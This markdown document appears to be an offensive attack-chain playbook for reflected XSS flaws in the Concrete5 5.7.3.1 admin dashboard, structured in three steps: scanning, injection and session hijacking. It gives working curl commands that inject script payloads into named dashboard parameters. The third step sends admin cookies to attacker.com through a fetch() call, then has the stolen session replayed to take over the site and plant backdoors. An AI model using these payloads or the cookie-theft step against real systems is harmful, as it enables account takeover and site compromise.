

# Multiple Reflected XSS Vulnerabilities in Concrete5 CMS Admin for Session Hijacking

Multi-stage attack chain demonstrating the discovery and exploitation of multiple reflected XSS vulnerabilities in Concrete5 version 5.7.3.1 administrative interfaces. These flaws arise from inadequate input sanitization in GET and POST parameters across dashboard features, tools, and dialogs, allowing attackers to inject malicious JavaScript that executes in the context of authenticated admin users. Successful exploitation can lead to session hijacking, cookie theft, keylogging, or performing unauthorized actions like modifying site content or user permissions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Netsparker]]
- curl (for manual payload delivery)

### Target Environment

- Concrete5 CMS version 5.7.3.1 or similar vulnerable releases
- Web platform with PHP backend
- Authenticated access to admin dashboard (e.g., via phishing or stolen creds for initial access)

### Initial Access Requirements

- Valid admin session or ability to trick admin into clicking malicious link
- Network access to the CMS instance (typically port 80/443)
- No special privileges beyond authenticated user

## Detailed Attack Procedures

### Step 1: Scan for XSS Vulnerabilities
procedure: [[procedures/Scan-for-XSS-Vulnerabilities-in-CMS-Admin]]

**Objective**: Identify vulnerable parameters in Concrete5 admin endpoints using automated scanning to map potential injection points.

**Instructions**: Launch Netsparker to crawl and test admin areas like dashboard/system, tools/required, and ccm/system/dialogs for XSS. Focus on parameters such as banned_word[], channel, accessType, msCountry, arHandle, pageURL, SEARCH_INDEX_AREA_METHOD, unit, register_notification_email, and URI-based paths.

```bash
# Example Netsparker scan initiation (CLI mode if available, or via GUI)
netsparker scan --url https://target.com/concrete5.7.3.1/ --scope admin --tests xss
```

**Expected Output**: Report listing vulnerable endpoints with proof-of-concept payloads, e.g., alerts triggering on injection.

**Success Indicators**:
- Detection of multiple XSS in 10+ parameters
- Confirmation of reflected payloads like <script>alert(0x000936)</script>

### Step 2: Exploit Reflected XSS in Parameters
procedure: [[procedures/Exploit-Reflected-XSS-in-Concrete5-Parameters]]

**Objective**: Deliver crafted JavaScript payloads via vulnerable GET/POST parameters to confirm execution in the admin's browser.

**Instructions**: Use curl to simulate requests to vulnerable URLs, replacing benign inputs with payloads. For example, target the banned words feature:

Use [[commands/curl-inject-xss-bannedwords]] to test POST injection:

```bash
curl -X POST -d 'banned_word[]="--></style></scRipt><scRipt>alert(0x000936)</scRipt>' https://target.com/concrete5.7.3.1/index.php/dashboard/system/conversations/bannedwords/success
```

For GET-based like logs view, use [[commands/curl-inject-xss-logs]]:

```bash
curl 'https://target.com/concrete5.7.3.1/index.php/dashboard/reports/logs/view?keywords=&level=&channel=%22--%3E%3C/style%3E%3C/scRipt%3E%3CscRipt%3Ealert(0x0044C4)%3C/scRipt%3E&level[]=600'
```

Repeat for other endpoints like permissions, multilingual, area design, etc., adapting payloads to bypass any minimal filtering.

**Expected Output**: Browser alert or console log confirming JS execution upon accessing the reflected page.

**Success Indicators**:
- Payload reflection without sanitization
- JS alert firing in authenticated session

### Step 3: Execute Payload for Session Hijacking
procedure: [[procedures/Execute-Payload-for-Session-Hijacking]]

**Objective**: Leverage XSS to steal session cookies or perform admin actions, escalating to full compromise.

**Instructions**: Once XSS is confirmed, modify payloads to exfiltrate data. For instance, in a vulnerable parameter, inject a script to send cookies to an attacker-controlled server using [[commands/curl-exfil-cookies]] pattern, but deliver via social engineering (e.g., phishing link).

Example payload injection for cookie theft in pageURL parameter:

```bash
curl -X POST -d 'pageURL="--></style></scRipt><scRipt>fetch("https://attacker.com/steal?cookie="+document.cookie)</scRipt>' https://target.com/concrete5.7.3.1/index.php/dashboard/pages/single
```

Monitor attacker server for incoming session data, then replay cookies in your browser to hijack the session and perform actions like adding backdoors.

**Expected Output**: Attacker server receives victim cookies; successful login with stolen session.

**Success Indicators**:
- Receipt of session cookies
- Unauthorized admin access achieved

## Attack Chain Summary

### Key Achievements

1. Discovery of 12 distinct XSS vectors in admin interfaces
2. Confirmation of arbitrary JS execution in authenticated context
3. Potential for session hijacking and CMS manipulation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
